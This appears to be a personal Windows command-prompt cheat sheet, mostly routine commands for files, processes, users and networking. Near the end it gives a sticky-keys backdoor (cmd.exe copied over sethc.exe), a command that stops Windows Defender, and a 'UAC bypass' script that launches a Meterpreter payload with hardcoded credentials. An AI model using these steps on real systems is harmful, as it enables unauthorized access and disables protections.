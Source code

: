 start>run>cmd.exe
>start cmd.exe
>start cmd.exe /t:0a
>color /?
## dir creation
```sh
$ >mkdir c:\temp
$ >echo hey > cmd.exe
>del cmd.exe
>notepad file.txt
```
clear the screen
>cls
current working directory
>cd 
to find particular string in output
>sc query | find "Event"
show contents of a file
>type c:\windows\win.ini
command history
Alt+F7
how many files are in system32
dir /b c:\windows\system32 | find /c /v ""
what is the length of ini file
type c:\windows\win.ini | find /c /v ""

taskmgr.exe
explorer.exe
regedit.exe
msconfig.exe
lusrmgr.msc
control
control schedtsks
evetvwr.msc
services.msc
secpol.msc

find hidden directory
>dir /aHD
searching directory
>dir /b /s c:\ | find /i "wmic.exe"
>dir /b /s wmic.exe
>dir /b /s *wmic*
>dir /b /s c:\wmic.exe
searching file conents
>findstr /d:c:\windows/system32 "Admin" *
>findstr "Admin" *.ini
The net user command
>net user
>net user fred passwd /add
>net user fred *
account details
>net user fred
account deletion
net user fred /del
change ip address
>netsh int ip set address "Local area connection" static 192.168.10.10 255.255.255.0 192.168.10.1
show firewall settings
>netsh firewall show config

show running process
>tasklist
>tasklist /src
>tasklist /fi "imagename eq cms.exe" /m
>tasklist /m ntdll.dll
kill process
>taskkill /PID [pid]
>taskkill /PID [pid] /PID [pid2]
>taskkill /IM cmd.exe

stop services
>sc query dhcp
>sc stop dhcp


copy d:\windows\system32\sethc.exe d:\
copy /y d:\windows\system32\cmd.exe d:\windows\system32\sethc.exe



Checking your Windows version using CMD
   • systeminfo
      OR
   • Run > winver
Find log files in directory
   •  dir /s *log* 

Process
   • tasklist
   • taskkill /F /PID pid_number


Disable windows defender:
   •  sc stop WinDefend


UAC bypass:
   •  echo $username = "alice" > run.ps1
   •  echo $secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force >> run.ps1
     echo $mycreds = New-Object System.Management.Automation.PSCredential ("$username",$secpasswd) >> run.ps1
   •  echo Start-Process veil_meterpreter.bat  -Credential ($mycreds) >> run.ps1

   • powershell -ExecutionPolicy Bypass -File run.ps1 
